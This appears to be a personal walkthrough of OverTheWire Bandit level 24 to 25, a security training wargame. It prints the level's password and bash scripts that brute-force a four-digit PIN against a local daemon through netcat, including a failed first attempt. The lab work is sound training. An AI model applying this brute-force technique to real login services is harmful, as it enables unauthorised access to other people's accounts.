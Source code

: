 [Bandit Level 24 → Level 25](https://overthewire.org/wargames/bandit/bandit25.html)

> A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  

username: bandit24  
password: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar  

Solution below:  
———————————————————————————————————————  
`ssh bandit24@bandit.labs.overthewire.org -p2220`  
So we know from previous levels we can submit to that port with `nc -N localhost 30002` when we try that it outputs the below:  
> I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.  

So, we can then send it:  
`VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0000` and that outputs the below and prompts again.  
> Wrong! Please enter the correct pincode. Try again.  

Obviously, we're going to have to script this, but how can we submit that data via the script? I read the man pages which didn't give a perfect answer so let's just give something a try here:  
```
#!/bin/bash
nc -N localhost 30002
for i in $(seq -f "%04g" 0 9999)
do
  echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar" + $i
done
``` 
Note: We need to pad so they're all 4 characters long, I found this for loop online to do that.  
`mkdir /tmp/gabedini` and then `cd /tmp/gabedini`  and `nano script.sh` paste in the above and control+x to exit.  
Give it executable permissions, `chmod +x script.sh`  
Well that didn't work because it opened the connection and waited instead of taking the echos...I also see that it included the + so I have a syntax error there.  
I think we need to read those in from a file, so what we'll do instead is make a file with those combos and then try that.  
```
#!/bin/bash

for i in $(seq -f "%04g" 0 9999)
do
  echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i" >> passwords.txt
done
```  
`nc localhost 30002 <passwords.txt`  
Ok so that is working to do it that way, but it seems to time out after about 6k even if I manually set the number of seconds, so I think it might be a rate limiter on the other side? Not sure, but we're going to make a second file, the script looks like this now (could have just modified to make a second set, but we're making it as it would be if it worked in one go):  
```
#!/bin/bash

for i in $(seq -f "%04g" 0 5000)
do
  echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i" >> passwords.txt
done

for i in $(seq -f "%04g" 5001 9999)
do
  echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i" >> passwords2.txt
done
```  
And then running this gets us the password:  `nc localhost 30002 <passwords2.txt`  

`exit`  